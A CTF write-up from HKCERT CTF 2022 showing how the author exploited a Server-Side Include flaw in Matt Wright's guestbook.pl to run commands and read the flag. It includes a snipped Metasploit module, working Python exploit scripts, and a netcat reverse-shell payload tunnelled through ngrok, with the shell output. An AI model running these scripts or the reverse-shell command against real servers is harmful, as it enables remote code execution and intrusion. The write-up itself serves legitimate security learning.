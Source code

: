 # CVE 1999

## Overview

- Overall difficulty for me (From 1-10 stars): ★★★★★★★☆☆☆

- Challenge difficulty: ★★☆☆☆

## Background

[Old news](https://www-info-gov-hk.translate.goog/gia/general/200002/24/0224258.htm?_x_tr_sl=zh-TW&_x_tr_tl=en&_x_tr_hl=en-US&_x_tr_pto=wapp) is so existing

Web: [http://chal-a.hkcert22.pwnable.hk:28229/~matt/guestbook.html](http://chal-a.hkcert22.pwnable.hk:28229/~matt/guestbook.html) , [http://chal-b.hkcert22.pwnable.hk:28229/~matt/guestbook.html](http://chal-b.hkcert22.pwnable.hk:28229/~matt/guestbook.html)

Remark: The guestbook will be cleaned up per minute

## Find the flag

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231222.png)

In here, we can see this is a **guestbook which created by Matt Wright**.

**addguest.html:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231430.png)

**Also, we can send a POST request to `/~matt/cgi-bin/guestbook.pl`.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/HKCERT-CTF-2022/images/Pasted%20image%2020221112231506.png)

**Let's use `searchsploit` to see is there any public exploits!**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# searchsploit Matt Wright Guestbook
------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                           |  Path
------------------------------------------------------------------------- ---------------------------------
Matt Wright Guestbook 2.3.1 - Guestbook.pl Multiple HTML Injection Vulne | cgi/webapps/27594.txt
The Matt Wright Guestbook.pl - Arbitrary Command Execution (Metasploit)  | cgi/webapps/16914.rb
The Matt Wright Guestbook.pl 2.3.1 - Server-Side Include                 | cgi/webapps/9907.rb
------------------------------------------------------------------------- ---------------------------------
```

**Looks like it's vulnerable to Server-Side Include (SSI)!**

**We can use `searchsploit -m` to mirror the exploit script:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# searchsploit -m 16914
```

**Snipped `16914.rb` exploit script:**
```ruby
	def exploit
		realname	= rand_text_alphanumeric(20)
		email		= rand_text_alphanumeric(20)
		city		= rand_text_alphanumeric(20)
		state		= rand_text_alphanumeric(20)
		country 	= rand_text_alphanumeric(20)

		sploit = Rex::Text.uri_encode("<!--#exec cmd=\"" + payload.encoded.gsub('"','\"') + "\"", 'hex-normal')

		req1 = send_request_cgi({
			'uri'     => datastore['URI'],
			'method'  => 'POST',
			'data'    => "realname=#{realname}&username=#{email}&city=#{city}&state=#{state}&country=#{country}&comments=#{sploit}",
		}, 25)

		req2 = send_request_raw({
			'uri'     => datastore['URIOUT'],
		}, 25)

	end
```

**Hmm... Looks like the `<!--#exec cmd="payload_here"` is the payload!**

**Let's write a simple python script to automate that!**
```py
#!/usr/bin/env python3

import requests
import string
import random
import sys
import urllib.parse

def main(payload):
	url = 'http://chal-a.hkcert22.pwnable.hk:28229/~matt/'
	payload = sys.argv[1]
	data = {
	'realname': ''.join(random.choices(string.ascii_letters, k=20)),
	'username': ''.join(random.choices(string.ascii_letters, k=20)),
	'url': ''.join(random.choices(string.ascii_letters, k=20)),
	'city': ''.join(random.choices(string.ascii_letters, k=20)),
	'state': ''.join(random.choices(string.ascii_letters, k=20)),
	'country': ''.join(random.choices(string.ascii_letters, k=20)),
	'comments': payload
}
	requests.post(url + 'cgi-bin/guestbook.pl', data=data)
	#requests.get(url + 'guestbook.html')

if __name__ == '__main__':
	if len(sys.argv) > 1:
		payload = sys.argv[1]
		main(payload)
	else:
		print(f'Usage: {sys.argv[0]} <payload>')
```

```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# python3 chal_automate.py '<!--#exec cmd="/bin/ls /"'
```

**Now, when you refresh the `guessbook.html` page, you should see all the files in the target machine!**

> Note1: Although I get the flag, I have no idea why the exploit sometimes work, sometimes didn't work.

> Note2: After the CTF, [Kaiziron](https://twitter.com/kaiziron) said that the reason why it happens is because this:

```
$value =~ s/<!--(.|\n)*-->//g;
```

> To get the payload working, we need to put `-->` on another field to close the payload.

**Correct payload:**
```py
#!/usr/bin/env python3

import requests
import string
import random
import sys
import urllib.parse

def main(payload):
	url = 'http://chal-a.hkcert22.pwnable.hk:28229/~matt/'
	payload = sys.argv[1]
	data = {
	'realname': ''.join(random.choices(string.ascii_letters, k=20)),
	'username': ''.join(random.choices(string.ascii_letters, k=20)),
	'url': ''.join(random.choices(string.ascii_letters, k=20)),
	'city': ''.join(random.choices(string.ascii_letters, k=20)),
	'state': ''.join(random.choices(string.ascii_letters, k=20)),
	'country': '-->',
	'comments': payload
}
	# Send the payload
	requests.post(url + 'cgi-bin/guestbook.pl', data=data)
	
	# Trigger the payload
	requests.get(url + 'guestbook.html')

if __name__ == '__main__':
	if len(sys.argv) > 1:
		payload = sys.argv[1]
		main(payload)
	else:
		print(f'Usage: {sys.argv[0]} <payload>')
```

- Reverse shell:

**Ngrok for port forwarding:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# ngrok tcp 1337

Web Interface                 http://127.0.0.1:4040                                                        
Forwarding                    tcp://0.tcp.ap.ngrok.io:12434 -> localhost:1337
```


**Setup a `nc` listener:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# nc -lnvp 1337
listening on [any] 1337 ...
```

**Send the payload:**
```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# python3 solve.py '<!--#exec cmd="nc 0.tcp.ap.ngrok.io 12434 -e /bin/bash"'
```

```
┌──(root🌸siunam)-[~/ctf/HKCERT-CTF-2022/Web/CVE-1999]
└─# nc -lnvp 1337
listening on [any] 1337 ...
connect to [127.0.0.1] from (UNKNOWN) [127.0.0.1] 59618
whoami;hostname;id
daemon
chal29-cve-1999-0
uid=1(daemon) gid=1(daemon) groups=1(daemon)

ls -lah /
[...]
-r--r--r--   1 root root   54 Oct 30 03:53 flag
[...]

cat /flag
hkcert22{DiDu_c0opy_others_FLags_or_c0rnment_brb_Tags}
```

We got the flag!

> Note: I also wrote a [Proof-of-Concept python exploit](https://github.com/siunam321/CVE-1999-1053-PoC) for this CVE!

# Conclusion

What we've learned:

1. Exploiting Server-Side Include Vulnerability